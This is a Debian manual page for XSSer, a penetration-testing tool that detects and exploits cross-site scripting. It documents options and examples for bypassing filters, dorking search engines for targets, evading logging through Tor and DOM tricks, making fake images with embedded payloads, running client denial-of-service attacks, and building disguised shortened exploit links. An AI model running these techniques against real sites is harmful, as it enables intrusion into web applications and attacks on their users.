 .\" Debian manual page, has been forwarded upstream
.TH XSSER "10" "Nov 2010"
.SH NAME
XSSer \- Cross Site Scripter framework
.SH SYNOPSIS
.PP
.B XSSer
.SH DESCRIPTION
.PP
XSSer is an open source penetration testing tool that automates the process of detecting and exploiting XSS injections against different applications.
.PP
It contains several options to try to bypass certain filters, and various special techniques of code injection.
.PP
.SH INSTALL
.PP
XSSer runs on many platforms. It requires Python and the following libraries:
.PP
    \- python-pycurl - Python bindings to libcurl
.PP
    \- python-beautifulsoup - error-tolerant HTML parser for Python
.PP
    \- python-xml - XML tools for Python
.PP
On Debian-based systems, run: 
.PP
   % sudo apt-get install python-pycurl python-beautifulsoup python-xml
.SH OPTIONS AND FEATURES
.TP
    XSSer [OPTIONS] [\-u <url> |\-i <file> |\-d <dork>] [\-g <get> |\-p <post> |\-c <crawl>] [Request(s)] [Vector(s)] [Bypasser(s)] [Technique(s)] [Final Injection(s)]
.PP
[Options]
.TP
    \fB\-\-version\fR
    show program's version number and exit
.TP
    \fB\-h\fR, \fB\-\-help\fR
    show this help message and exit
.TP
    \fB\-v\fR, \fB\-\-verbose\fR
    verbose (default: no)
.TP
    \fB\-s\fR, 
    show statistics with all injection attempts responses
.TP
    \fB\-w\fR 
    output all results directly to template (XSSlist.dat)
.TP
    \fB\-\-xml\fR=\fIFILEXML\fR
    output 'positives' to aXML file (\-\-xml filename.xml)
.TP
    \fB\-\-publish\fR
    output 'positives' to Social Networks (identi.ca)
.TP
    \fB\-\-short\fR=\fISHORTURLS\fR
    output \-final code\- shortered (tinyurl, is.gd)
.TP
    \fB\-\-imx\fR=\fIIMX\fR
    create a false image with XSS code embedded
.TP
    \fB\-\-fla\fR=\fIFLASH\fR
    create a false .swf file with XSS code embedded
.TP
    \fB\-\-check\fR
    send a hash to pre-check if target repeats all content recieved (usefull to reduce 'false positive' results)
.TP
    \fB\-\-launch\fR
    launch a browser at the end, with each 'positive' final code injection(s) discovered
.TP
[*Select Target(s)*:] 
.PP
At least one of these options has to be specified to set the source to get target(s) urls from. You need to choose to run XSSer:
.TP
    \fB\-u\fR URL\fR, \fB\-\-url\fR=\fIURL\fR
    show program's version number and exit
.TP
    \fB\-i\fR=\fIREADFILE\fR
    Read target urls from a file
.TP
    \fB\-d\fR=\fIDORK\fR
    Process search engine dork results as target urls
.TP
    \fB\-\-De\fR=\fIDORK_ENGINE\fR
    Search engine to use for dorking (duck, altavista,
    bing, baidu, yandex, yebol, youdao, google, yahoo)
.TP
[*Select type of HTTP/HTTPS connection(s)*:] 
.PP
These options can be used to specify which parameter(s) we want to use like payload to inject code.
.TP
    \fB\-g\fR=\fIGET\fR
    Enter payload to audit using GET. (ex: '/menu.php?q=')
.TP
    \fB\-p\fR=\fIPOST\fR
    Enter payload to audit using POST. (ex: 'foo=1&bar=')
.TP
    \fB\-c\fR=\fICRAWLING\fR
    Crawl target hierarchy parameters (can be slow!)
.TP
    \fB\-\-Cw\fR=\fICRAWLER_WIDTH\fR
    Number of urls to visit when crawling (deeping level)
.TP
[*Configure Request(s)*:] 
.PP
These options can be used to specify how to connect to target(s) payload(s). You can select multiple:
.TP
    \fB\-\-cookie\fR=\fICOOKIE\fR
    Change your HTTP Cookie header
.TP
    \fB\-\-user\-agent\fR=\fIAGENT\fR
    Change your HTTP User-Agent header (default SPOOFED)
.TP
    \fB\-\-referer\fR=\fIREFERER\fR
    Use another HTTP Referer header (default NONE)
.TP
    \fB\-\-headers\fR=\fIHEADERS\fR
    Extra HTTP headers newline separated
.TP
    \fB\-\-auth\-type\fR=\fIATYPE\fR
    HTTP Authentication type (value Basic or Digest)
.TP
    \fB\-\-auth\-cred\fR=\fIACRED\fR
    HTTP Authentication credentials (value name:password)
.TP
    \fB\-\-proxy\fR=\fIPROXY\fR
    Use proxy server (tor: http://localhost:8118)
.TP
    \fB\-\-timeout\fR=\fITIMEOUT\fR
    Select your Timeout (default 30)
.TP
    \fB\-\-delay\fR=\fIDELAY\fR
    Delay in seconds between each HTTP request (default 8)
.TP
    \fB\-\-threads\fR=\fITHREADS\fR
    Maximum number of concurrent HTTP requests (default 1)
.TP
    \fB\-\-retries\fR=\fIRETRIES\fR
    Retries when the connection timeouts (default 3)
.TP
[*Select Vector(s)*:] 
.PP
These options can be used to specify a XSS vector source code to inject in each payload. Important, if you don't want to try to inject a common XSS vector, used by default. Choose only one option:
.TP
    \fB\-\-payload\fR=\fISCRIPT\fR
    OWN  \- Insert your XSS construction \-manually\-
.TP
    \fB\-\-auto\fR
    AUTO \- Insert XSSer 'reported' vectors from file
.TP
[*Select Bypasser(s)*:]
.PP 
These options can be used to encode selected vector(s) to try to bypass all possible anti-XSS filters on target(s) code and some IPS rules, if the target use it. Also, can be combined with other techniques to provide encoding:
.TP
    \fB\-\-Str\fR
    Use method String.FromCharCode()
.TP
    \fB\-\-Une\fR
    Use function Unescape()
.TP
    \fB\-\-Mix\fR
    Mix String.FromCharCode() and Unescape()
.TP
    \fB\-\-Dec\fR
    Use Decimal encoding
.TP
    \fB\-\-Hex\fR
    Use Hexadecimal encoding
.TP
    \fB\-\-Hes\fR
    Use Hexadecimal encoding, with semicolons
.TP
    \fB\-\-Dwo\fR
    Encode vectors IP addresses in DWORD
.TP
    \fB\-\-Doo\fR
    Encode vectors IP addresses in Octal
.TP
    \fB\-\-Cem\fR=\fICEM\fR
    Try -manually- different Character Encoding mutations
    (reverse obfuscation: good) -> (ex: 'Mix,Une,Str,Hex')
.TP
[*Special Techniques(s)*:] 
.PP    
These options can be used to try to inject code using different type of XSS techniques. You can select multiple:
.TP
    \fB\-\-Coo\fR
    COO - Cross Site Scripting Cookie injection
.TP
    \fB\-\-Xsa\fR
    XSA - Cross Site Agent Scripting
.TP
    \fB\-\-Xsr\fR
    XSR - Cross Site Referer Scripting
.TP
    \fB\-\-Dcp\fR
    DCP - Data Control Protocol injections
.TP
    \fB\-\-Dom\fR
    DOM - Use Anchor Stealth (DOM shadows!)
.TP
[*Select Final Injection(s)*:] 
.PP
These options can be used to specify the final code to inject in vulnerable target(s). Important, if you want to exploit on-the-wild your discovered vulnerabilities. Choose only one option:
.TP
    \fB\-\-Fp\fR=\fIFINALPAYLOAD\fR
    OWN    - Insert your final code to inject -manually-
.TP
    \fB\-\-Fr\fR=\fIFINALREMOTE\fR
    REMOTE - Insert your final code to inject -remotelly-
.TP
    \fB\-\-B64\fR
    B64    - Base64 code encoding in META tag (rfc2397)
.TP
    \fB\-\-Dos\fR
    DOS    - XSS Denial of service (client) attack!!
.TP
[*Special Final Injection(s)*:] 
.PP
These options can be used to execute some 'special' injection(s) in vulnerable target(s). You can select multiple and combine with your final code:
.TP
    \fB\-\-Onm\fR
    ONM - Use onMouseMove() event to inject code
.TP
    \fB\-\-Ifr\fR
    IFR - Use <iframe> source tag to inject code
.PP
.SH EXAMPLES OF USAGE
.PP
.PP
* Simple injection from URL:
.PP
$ python XSSer.py \-u "http://host.com"
.PP
* Simple injection from File, with tor proxy and spoofing HTTP Referer headers:
.PP
$ python XSSer.py \-i "file.txt" \-\-proxy "http://127.0.0.1:8118" \-\-referer "666.666.666.666"
.PP
* Multiple injections from URL, with automatic payloading, using tor proxy, injecting on payloads character encoding in "Hexadecimal", with verbose output and saving results to file (XSSlist.dat):
.PP
$ python XSSer.py -u "http://host.com" --proxy "http://127.0.0.1:8118" --auto --Hex --verbose -w
.PP
* Multiple injections from URL, with automatic payloading, using caracter encoding mutations (first, change payload to hexadecimal; second, change to StringFromCharCode the first encoding; third, reencode to Hexadecimal the second encoding), with HTTP User-Agent spoofed, changing timeout to "20" and using multithreads (5 threads):
.PP
$ python XSSer.py \-u "http://host.com" \-\-auto \-\-Cem "Hex,Str,Hex" \-\-user\-agent "XSSer!!" \-\-timeout "20" \-\-threads "5"
.PP
* Advance injection from File, payloading your \-own\- payload and using Unescape() character encoding to bypass filters:
.PP
$ python XSSer.py \-i "urls.txt" \-\-payload 'your_script_here' \-\-Une
.PP
* Injection from Dork selecting "duck" engine (XSSer Storm!):
.PP
$ python XSSer.py \-\-De "duck" \-d "search.php?"
.PP
* Injection from Crawler with deep 3 and 4 pages to see (XSSer Spider!):
.PP
$ python XSSer.py \-c3 \-\-Cw=4 \-u "http://host.com"
.PP
* Simple injection from URL, using POST, with statistics results:
.PP
$ python XSSer.py \-u "http://host.com" \-p "index.php?target=search&subtarget=top&searchstring=" \-s
.PP
* Multiple injections from URL to a parameter sending with GET, using automatic payloading, with IP Octal payloading ofuscation and printering results in a "tinyurl" shortered link (ready for share!):
.PP
$ python XSSer.py \-u "http://host.com" \-g "bs/?q=" \-\-auto \-\-Doo \-\-short tinyurl
.PP
* Simple injection from URL, using GET, injecting a vector in Cookie parameter, trying to use a DOM shadow space (no server logging!) and if exists any "hole", applying your manual final payload "malicious" code (ready for real attacks!):
.PP
$ python XSSer.py \-u "http://host.com" \-g "bs/?q=" \-\-Coo \-\-Anchor \-\-Fr="!enter your final injection code here!"
.PP
* Simple injection from URL, using GET and trying to generate with results a "malicious" shortered link (is.gd) with a valid DoS (Denegation Of Service) browser client payload:
.PP
$ python XSSer.py \-u "http://host.com" \-g "bs/?q=" \-\-Dos \-\-short "is.gd"
.PP
* Multiple injections to multiple places, extracting targets from a list in a FILE, applying automatic payloading, changing timeout to "20" and using multithreads (5 threads), increasing delay between petitions to 10 seconds, injecting parameters in HTTP USer\-Agent, HTTP Referer and in Cookie parameters, using proxy Tor, with IP Octal ofuscation, with statistics results, in verbose mode and creating shortered links(tinyurl) of any valid injecting payloads found. (real playing mode!):
.PP
$ python XSSer.py \-i "list_of_url_targets.txt" \-\-auto \-\-timeout "20" \-\-threads "5" \-\-delay "10" \-\-Xsa \-\-Xsr \-\-Coo \-\-proxy "http://127.0.0.1:8118" \-\-Doo \-s \-\-verbose \-\-Dos \-\-short "tinyurl"
.PP
* Injection of user XSS vector directly in a malicious \-fake\- image created "on the wild", and ready to be uploaded.
.PP
$ python XSSer.py \-\-Imx "test.png" --payload "!enter your malicious injection code here!"
.PP
* Report output 'positives' injections of a dorking search (using "ask" dorker) directly to a XML file.
.PP
$ python XSSer.py \-d "login.php" \-\-De "ask" \-\-xml "security_report_XSSer_Dork_cuil.xml"
.PP
* Publish output 'positives' injections of a dorking search (using "duck" dorker) directly to http://identi.ca (federated XSS pentesting botnet)
.PP
$ python XSSer.py \-d "login.php" \-\-De "duck" \-\-publish
.PP
* Examples online:
.TP
    - http://identi.ca/xsserbot01
.PP
* Create a .swf movie with XSS code injected
.PP
$ python XSSer.py \-\-imx "name_of_file"
.PP
* Send a pre\-checking hash to see if target will generate \-false positive\- results
.PP
$ python XSSer.py \-u "host.com" \-\-check
.PP
* Multiple fuzzing injections from url, including DCP injections and exploiting our "own" code, spoofed in a shortered link, on positive results founded. XSS real\-time exploiting.
.PP
$ python XSSer.py \-u "host.com" \-\-auto \-\-Dcp \-\-Fp "enter_your_code_here" \-\-short "is.gd"
.PP
* Exploiting Base64 code encoding in META tag (rfc2397) in a manual payload of a vulnerable target.
.PP
$ python XSSer.py \-u "host.com" \-g "vulnerable_path" \-\-payload "valid_vector_injected" \-\-B64
.PP
* Exploiting our "own" \-remote code\- in a payload discovered using fuzzing and launch it in a browser directly
.PP
$ python XSSer.py \-u "host.com" \-g "vulnerable_path" \-\-auto \-\-Fr "my_host/path/code.js" \-\-launch
.PP
.SH CONTRIBUTE
.PP
If you want to contribute to XSSer development reporting a bug, providing a patch, commenting on the code base or simply need to find help to run XSSer first refer to the xsser documentation, then surf the xsser mailing list (Xsser\-users@lists.sourceforge.net) online archives and if you still have something to say, do that on the appropriate xsser mailing list. If nobody gets back to you, then drop me an e\-mail (root@lordepsylon.net \- epsylon@riseup.net).
.PP
If you discover any vulnerability in a software using XSSer, please add to the report a link to this site.
.PP
.SH COPYRIGHT
.PP
Copyright © 2008 Free Software Foundation, Inc.   License  GPLv3+:  GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This  is  free  software:  you  are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
.SH SEE ALSO
.PP
.BR top (1)
.SH AUTHOR
.PP
XSSer was written by R.C.Mérida (psy)
